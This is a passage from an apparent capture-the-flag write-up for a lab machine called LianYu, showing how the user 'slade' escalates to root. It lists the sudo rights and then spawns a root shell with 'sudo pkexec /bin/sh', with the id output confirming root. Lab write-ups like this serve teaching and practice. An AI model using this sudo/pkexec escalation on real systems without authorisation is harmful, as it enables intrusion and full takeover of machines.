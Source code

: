 ### slade --> root
```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

![20240531225212](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240531225212.png)

```bash
slade@LianYu:~$ sudo pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

